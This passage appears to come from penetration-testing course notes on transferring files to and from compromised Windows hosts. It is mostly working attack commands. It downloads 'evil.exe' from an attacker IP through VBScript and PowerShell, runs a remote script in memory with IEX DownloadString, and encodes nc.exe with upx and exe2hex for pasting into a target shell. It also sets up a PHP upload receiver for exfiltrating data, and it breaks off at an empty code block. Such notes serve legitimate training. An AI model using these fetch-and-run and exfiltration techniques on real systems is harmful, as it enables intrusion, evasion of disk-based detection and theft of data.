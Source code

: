 ```sh
C:\Users\Offsec> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe
```
#### PowerShell
Executing the PowerShell HTTP downloader script as a one-liner
```sh
C:\Users\Offsec> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
```
Executing a remote PowerShell script directly from memory (don't save on disk)
```sh
C:\Users\Offsec> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Hello World
```
### Windows Downloads with exe2hex and PowerShell
Starting on our Kali machine, we will:
1. compress the binary we want to transfer, 
    ```sh
    kali@kali:~$ upx -9 nc.exe
    ```
2. convert it to a hex string, and embed it into a Windows script.
    ```sh
    kali@kali:~$ exe2hex -x nc.exe -p nc.cmd
    ```
3. copy the script to the clipbpard
    ```sh
    cat nc.cmd | xclip -selection clipboard
    ```
On the Windows machine, we will paste this script into our shell and run it. It will redirect the hex data into `powershell.exe`, which will assemble it back into a binary. This will be done through a series of non-interactive commands.

### Windows Uploads Using Windows Scripting Languages
In certain scenarios, we may need to exfiltrate data from a target network using a Windows client. This can be complex since standard TFTP, FTP, and HTTP servers are rarely enabled on Windows by default.

Fortunately, if outbound HTTP traffic is allowed, we can use the `System.Net.WebClient` PowerShell class to upload data to our Kali machine through an HTTP POST request.

To do this, we can create the following PHP script and save it as `upload.php` in our Kali webroot directory, `/var/www/html`:
```php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```
Then we need to create the `uploads` folder and modify its permissions, granting the `www-data` user ownership and subsequent write permissions:
```sh
kali@kali:/var/www$ sudo mkdir /var/www/uploads

kali@kali:/var/www$ ps -ef | grep apache
root      1946     1  0 21:39 ?        00:00:00 /usr/sbin/apache2 -k start
www-data  1947  1946  0 21:39 ?        00:00:00 /usr/sbin/apache2 -k start

kali@kali:/var/www$ sudo chown www-data: /var/www/uploads
```
With Apache and the PHP script ready to receive our file, we move to the compromised Windows host:
```cmd
```